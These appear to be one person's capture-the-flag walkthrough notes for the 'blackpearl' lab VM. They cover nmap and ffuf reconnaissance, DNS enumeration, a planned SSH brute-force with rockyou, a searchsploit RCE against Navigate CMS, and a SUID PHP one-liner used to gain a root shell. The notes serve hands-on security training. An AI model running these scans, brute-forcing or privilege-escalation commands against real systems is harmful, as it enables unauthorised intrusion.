

## nmap results: 

- `nmap -p- -Pn -sV -O 10.0.2.15 > nmapDscan.txt`
```sh title:"nmap -p- -Pn -sV -O 10.0.2.15 > nmapDscan.txt" fold
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-24 11:26 EDT
Nmap scan report for 10.0.2.15
Host is up (0.020s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
80/tcp open  http    nginx 1.14.2
MAC Address: 08:00:27:80:9D:FE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.91 seconds
```

- `nmap -p- -Pn -A 10.0.2.15 > nmapAscan.txt`
```sh title:"nmap -p- -Pn -A 10.0.2.15 > nmapAscan.txt" fold
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-24 11:55 EDT
Nmap scan report for 10.0.2.15
Host is up (0.030s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:80:9D:FE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT      ADDRESS
1   30.45 ms 10.0.2.15

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.33 seconds
```

## http enum:
- `http://10.0.2.15` is just a default nginx page
## dirbusting results: 

- `ffuf -u http://10.0.2.15/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ`
```sh title:"ffuf result1" fold
# directory-list-2.3-medium.txt [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 4ms]
#                       [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 4ms]
# Copyright 2007 James Fisher [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 0ms]
# This work is licensed under the Creative Commons  [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 0ms]
#                       [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 4ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 0ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 0ms]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 0ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 0ms]
#                       [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 0ms]
# Priority ordered case sensative list, where entries were found  [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 0ms]
# on atleast 2 different hosts [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 12ms]
                        [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 12ms]
#                       [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 16ms]
secret                  [Status: 200, Size: 209, Words: 31, Lines: 9, Duration: 12ms]
:: Progress: [10308/220560] :: Job [1/1] :: 23 req/sec :: Duration: [0:07:13]
```
- found: `secret`
- its actually `secret.txt`:
```
OMG you got r00t !


Just kidding... search somewhere else. Directory busting won't give anything.

<This message is here so that you don't waste more time directory busting this particular website.>

- Alek 
```
- seems like we wont get anything from dirbusting
- possible uname:
```
alek
```
- gonna try bruteforcing ssh with rockyou with this uname
- while thats running. im gonna look into what that `domain` thing is
## dns enumeration:
- seems like he used a tool called [[dnsrecon]] 
- `dnsrecon -r 127.0.0.0/24 -n 192.168.33.81 -d skibidi`
```sh
[*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255
[+]      PTR blackpearl.tcm 127.0.0.1
[+] 1 Records Found
```
- gonna update `etc/hosts` now
- why we do it:
	- when we make an http request to a server where there are multiple sites hosted. the server checks the host header in the [[HTTP request]] and cross checks it with the server's [[Name-Based Virtual Hosting]] or `VHOST` block to determine which site's content to serve. 
## dirbusting again with the host set up:
- found a directory called `navigate` which redirects to `http://blackpearl.tcm/navigate/login.php`
- gets us this page with the navigate CMS 

## exploitation:
- did `searchsploit` and found an RCE module. used it. got a shell as `www-data` cant really do anything. 
- gonna find the files that has the uid set 
```
find / -perm -u=s -type f 2>/dev/null
```

```
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
```
